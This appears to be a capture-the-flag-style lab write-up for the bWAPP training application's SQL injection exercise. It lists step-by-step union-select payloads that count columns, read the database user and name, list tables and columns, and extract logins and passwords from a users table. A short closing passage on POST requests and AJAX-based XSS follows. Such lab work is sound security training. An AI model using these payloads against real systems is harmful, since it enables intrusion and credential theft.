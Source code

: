 1) `movie=-1 union select 1,group_concat(title),3,4,5,6,7 from movies`
2) Number of columns, brute force with order by `http://localhost/bWAPP/sqli_2.php?movie=1 order by 8-- -` When we get an error, means we don't have that number of columns.
3) 5 columns are displayed in the output.
4) `movie=-1 union all select 1,user(),3,4,5,6,7`
5) `movie=-1 union all select 1,database(),3,4,5,6,7`
6) `movie=-1 union all select 1,group_concat(column_name),3,4,5,6,7 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='movies'`
7) `movie=-1 union all select 1,group_concat(table_name),3,4,5,6,7 FROM INFORMATION_SCHEMA.TABLES`
8) `movie=-1 union all select 1,group_concat(login),group_concat(password),4,5,6,7 FROM users`

If the website used POST and not GET then we wouldn't see the changes in the URL as the data would be sent in the body of the POST request and not in the header of GET. If it was a select POST request we would need to capture and hold the packet and then change it and send it. If it would be search POST request, we could just write it in the form.

With AJAX we could use java script code injection and XSS in case the backend wasn't configured correctly.